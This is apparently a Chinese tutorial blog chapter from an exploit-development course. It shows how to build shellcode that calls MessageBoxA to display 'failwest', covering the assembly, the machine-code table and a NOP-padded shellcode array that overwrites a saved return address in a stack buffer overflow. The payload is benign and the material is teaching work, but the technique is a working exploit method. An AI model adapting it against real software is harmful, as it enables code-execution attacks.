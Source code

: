 * hWnd[in] 消息框所属窗口的句柄，如果为NULL，消息框则不属于任何窗口
* IpText[in]  字符串指针，所指字符串会在消息框中显示
* IpCaption[in]  字符串指针，所指字符串将成为消息框的标题
* uType[in]  消息框的风格（单按钮、多按钮等），NULL代表默认风格

熟悉MFC的程序员都知道，系统其实并不存在真正的MessageBox函数，对MessageBox这类API的调用最终都将由系统按照参数中字符串的类型选择“A”类函数（ASCII）或者“W”类型函数（UNICODE）调用。因此，本文中用的是MessageBoxA。

<b>用汇编语言调用MessageBoxA需要三个步骤</b>
1. 装载动态链接库user32.dll。MessageBoxA是动态链接库user32.dll的导出函数。虽然大多数有图形界面的程序都已经装载了该库，但是本实验的Console程序并没有默认加载。
2. 在汇编语言中调用该函数需要获得这个函数的入口地址
3. 在调用前需要向栈中从右向左的顺序压入MessageBoxA的4个参数

<font color=#f00>获取MessageBoxA的方式，我们在《查找动态链接库的API地址》那一篇博文中有讲，这里仅仅给出Windows 2000 Server的MessageBoxA地址为0x77E16544.</font>

下面将让弹出的窗口显示标题和文本内容都为“failwest”，而压入的第一个和第四个参数都为NULL。

<b><center>机器代码(具体操作可以参见《机器代码与汇编代码的转换》)</center></b>

|机器代码（十六进制）|汇编指令|注释|
|--|--|--|
|33DB|XOR EBX, EBX|
|53|PUSH EBX|
|6877657374|PUSH 74736577|
|6877657374|PUSH 74736577|压入NULL结尾的"failwest"字符串。之所以使用EBX清零后作为字符串的截断符，是为了避免"PUSH 0"中的NULL，否则植入的机器码会被strcpy函数截断
|8BC4|MOV EAX, ESP|EAX里是字符串指针|
|53|PUSH EBX|
|50|PUSH EAX|
|50|PUSH EAX|
|53|PUSH EBX|4个参数按照从右向左的顺序入栈，分别是(0,failwest,failwest,0)<br>
消息框是默认风格，文本区和标题都是"failwest"|
|B84465E177|MOV EAX, 0x77E16544|
|FFD0|CALL EAX|调用函数MessageBoxA。这里的地址依据机器而定|

然后在这些代码与53—56处的buffer中0x0012FAF0(返回地址)，其余的字节用0x90(nop指令)填充。

shellcode[] = "\x33\xdb\x53\x68\x77\x65\x73\x74\x68\x77\x65\x73\x74
\x8b\xc4\x53\x50\x50\x53\xb8\x44\x65\xe1\x77\xff\xd0\x90
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xf0\xfa\x12\x00"

![测试结果](/images/2017-06-22/failwest_test.jpg)


